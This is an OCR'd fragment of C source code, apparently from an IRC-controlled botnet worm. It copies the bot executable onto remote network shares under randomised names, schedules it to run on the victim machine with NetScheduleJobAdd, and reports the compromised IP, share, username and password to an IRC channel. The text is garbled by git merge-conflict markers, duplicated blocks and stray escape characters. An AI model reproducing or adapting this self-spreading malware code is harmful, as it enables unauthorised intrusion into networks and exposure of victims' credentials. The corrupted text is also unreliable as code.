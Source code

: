					if (_access(szRemoteFile,00) \=\= 0) {
						szRemoteFile[strlen(szRemoteFile)\-5] \= (char)((rand()%10)+48);
						if ((j\=CopyFile(filename,szRemoteFile,FALSE)) !\= 0)
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
							break;
					}
				}
			}
			if (!j) {
				fNetApiBufferFree(tinfo);
				fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);
				return FALSE;
			}
				
<<<<<<< HEAD
			DWORD jobtime=tinfo->tod_elapsedt / 60;
			jobtime-=tinfo->tod_timezone;
			jobtime+=2;
			jobtime%=(24*60);
			memset(&at_time,0,sizeof(AT_INFO));
			at_time.JobTime=jobtime*60000;
			MultiByteToWideChar(CP_ACP,0,filename,-1,wszFilename,sizeof(wszFilename));
			at_time.Command=wszFilename; 

			if ((nStatus=fNetScheduleJobAdd(wszNetbios,(BYTE *)&at_time,&JobID)) == NERR_Success) {
				_snprintf(buffer,sizeof(buffer),"[%s]: Exploiting IP: %s, Share: \\%s, User: (%s/%s)",exploit[exinfo.exploit].name,szServer,sharepath[i],szUsername,((strcmp(szPassword,"")==0)?("(no password)"):(szPassword)));
=======
			DWORD jobtime\=tinfo\->tod_elapsedt / 60;
			jobtime\-\=tinfo\->tod_timezone;
			jobtime+\=2;
			jobtime%\=(24*60);
			memset(&at_time,0,sizeof(AT_INFO));
			at_time.JobTime\=jobtime*60000;
			MultiByteToWideChar(CP_ACP,0,filename,\-1,wszFilename,sizeof(wszFilename));
			at_time.Command\=wszFilename; 

			if ((nStatus\=fNetScheduleJobAdd(wszNetbios,(BYTE *)&at_time,&JobID)) \=\= NERR_Success) {
				_snprintf(buffer,sizeof(buffer),"[%s]: Exploiting IP: %s, Share: \\%s, User: (%s/%s)",exploit[exinfo.exploit].name,szServer,sharepath[i],szUsername,((strcmp(szPassword,"")\=\=0)?("(no password)"):(szPassword)));
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
				if (!exinfo.silent) irc_privmsg(exinfo.sock, exinfo.chan, buffer, exinfo.notice);
				addlog(buffer);
				exploit[exinfo.exploit].stats++;
			}
		}
	}
	fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);

	return TRUE;
}
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
